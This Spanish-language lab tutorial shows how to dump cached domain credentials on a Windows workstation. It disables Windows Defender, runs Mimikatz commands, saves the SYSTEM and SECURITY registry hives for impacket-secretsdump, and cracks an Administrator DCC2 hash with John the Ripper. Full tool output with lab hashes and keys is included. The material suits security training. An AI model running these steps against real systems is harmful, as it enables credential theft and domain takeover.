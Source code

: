 ```yaml
---
icon: users-rectangle
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Volcado de credenciales de dominio cacheadas (mscash)

Imaginemos que tenemos un usuario local con privilegios de `administrador` como hemos visto anteriormente, estando en el equipo `Windows` podremos volcar las credenciales que fueron `cacheadas` en el sistema, estando con la sesion iniciada de forma local `.\santiago` en el `WS01` si no podemos obtener credenciales de las `logon sessions` por que no hay ninguna que nos interese y de la `SAM` no nos interesa por que solo son a nivel local y queremos a nivel de dominio, podremos realizar el volcado de credenciales `cacheadas` para ver si hay alguna registrada de algun usuario a nivel de dominio.

Utilizaremos `Mimikatz` en este caso, por lo que tendremos que descativar el antivirus ya que somos `administradores` locales, podremos hacerlo.

Una vez desactivado el `Windows Defender` ejeuctaremos `mimikatz` en un `PowerShell` como `Administrador`.

Para ello antes tendremos que ser `SYSTEM` por lo que haremos lo que hicimos anteriormente para suplantar su `token` de la siguiente forma:

```powershell
privilege::debug
token::elevate
```

Una vez ejecutado estos comandos, ahora si haremos lo siguiente:

```powershell
lsadump::cache
```

Info:

```
Domain : WS01
SysKey : c8125866b327df176940c9f2d6a48f5f

Local name : WS01 ( S-1-5-21-1345059704-770646112-4146140408 )
Domain name : CORP ( S-1-5-21-3352250647-938130414-2449934813 )
Domain FQDN : corp.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {61d93de2-3cd5-f57c-bb1a-61759861b280}
  [00] {61d93de2-3cd5-f57c-bb1a-61759861b280} 9ff21a12391e4572d34bcc2b9c41c89c572dcc27ac3d906f69db749f620da79d

* Iteration is set to default (10240)

[NL$1 - 20/01/2025 9:13:41]
RID       : 00000450 (1104)
User      : CORP\empleado1
MsCacheV2 : fda53d6158406f827388476bcbc97c37

[NL$2 - 19/01/2025 9:52:13]
RID       : 000001f4 (500)
User      : CORP\Administrator
MsCacheV2 : e1c8d7e26653ae629a74772a389cf7e6

[NL$3 - 12/01/2025 12:36:13]
RID       : 000004b9 (1209)
User      : CORP\annice.mable
MsCacheV2 : 77702054bffe13f7c5bbe919a228d985

[NL$4 - 12/01/2025 17:51:40]
RID       : 00000463 (1123)
User      : CORP\angelika.shelly
MsCacheV2 : 835512d4e4bb1d962c57d290eb99f670
```

Y con esto veremos que hemos obtenidos las credenciales de los usuarios que alguna vez en algun momento se han logeado en este equipo y podremos obtener ese `hash` que sera la contraseña del mismo, por ejemplo el del `Administrador` y vamos a `crackearlo` con `john` de la siguiente forma:

```shell
echo e1c8d7e26653ae629a74772a389cf7e6 > adminCache.hash
john --format=mscash2 adminCache.hash
```

Si realizamos esto, veremos que no nos lo consigue `crackear` por que le tenemos que dar un formato especifico al `hash`, por ello vamos a empezar por irnos a nuestro equipo de `Windows` y en la terminal de `PowerShell` vamos a volcar todas las ramas del registro y luego utilizar `impacket` en `kali`.

```powershell
cd .\Desktop
reg save hklm\system system.save
```

Y ahora volcaremos las credenciales `cacheadas` que no va a ser en la `SAM`, sera en la siguiente zona.

```powershell
reg save hklm\security security.save
```

Ahora estos 2 ficheros nos lo vamos a pasar al `kali` para poder extraer la informacion ahi.

```shell
impacket-secretsdump -system system.save -security security.save LOCAL
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xc8125866b327df176940c9f2d6a48f5f
[*] Dumping cached domain logon information (domain/username:hash)
CORP.LOCAL/empleado1:$DCC2$10240#empleado1#fda53d6158406f827388476bcbc97c37: (2025-01-20 08:13:41)
CORP.LOCAL/Administrator:$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6: (2025-01-19 08:52:13)
CORP.LOCAL/annice.mable:$DCC2$10240#annice.mable#77702054bffe13f7c5bbe919a228d985: (2025-01-12 11:36:13)
CORP.LOCAL/angelika.shelly:$DCC2$10240#angelika.shelly#835512d4e4bb1d962c57d290eb99f670: (2025-01-12 16:51:40)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:5700320055006b0049004e0027003d005e0055005c00750052004c0077006e004e00510045003c002d0066005d004b005f007600330072004400350022002700750068004e00300041003d0024006c004e0022005700750065006b00640034004a0056006f003e006c005f006c0050005c005d002700360077002c00290033005e005d004f005e005100560027002e003200380029004f0078005100410049002c003a0025005f00680072005d00380034002500490068002200640045006f0072005c0063002d0022005f002f006f0065006700720022005f0061006c00780047006400590062007700770059005f00
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:afc5c02d936d73808ce716070e883ab8
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6be6aee6bc489e7fab1ed9a63b1aa5c0d2f13fef
dpapi_userkey:0xb83f8122ee552579d8fbf4d9b304ae19ab5bb7af
[*] NL$KM 
 0000   5C B5 3B 8C D5 28 A0 C3  6A F2 57 A3 08 B6 F7 D4   \.;..(..j.W.....
 0010   E4 7D 11 84 8F 2C 98 2B  2D DD 06 7D 30 53 B4 23   .}...,.+-..}0S.#
 0020   4B 8D C7 7E 92 96 5B 48  67 29 99 50 C1 E4 27 A6   K..~..[Hg).P..'.
 0030   37 2C 9D 99 E8 FD 57 11  CC 44 47 ED 30 6F 96 00   7,....W..DG.0o..
NL$KM:5cb53b8cd528a0c36af257a308b6f7d4e47d11848f2c982b2ddd067d3053b4234b8dc77e92965b4867299950c1e427a6372c9d99e8fd5711cc4447ed306f9600
[*] Cleaning up...
```

Ahora vemos que nos extrae los mismo usuarios que vimos anteriormente, pero en este caso nos lo pone el `hash` en el formato que necesitamos para poder `crackearlo` correctamente, por lo que haremos lo siguiente:

```shell
nano adminCache.hash

#Dentro del nano
$DCC2$10240#Administrator#e1c8d7e26653ae629a74772a389cf7e6
```

Lo guardamos y ahora lo vamos a `crackear`:

```shell
john --format=mscash2 adminCache.hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (mscash2, MS Cache Hash 2 (DCC2) [PBKDF2-SHA1 128/128 AVX 4x])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Passw0rd         (?)     
1g 0:00:00:01 DONE 2/3 (2025-01-20 03:49) 0.7246g/s 4127p/s 4127c/s 4127C/s Stephani..Something
Use the "--show --format=mscash2" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que lo hemos conseguido esta vez.
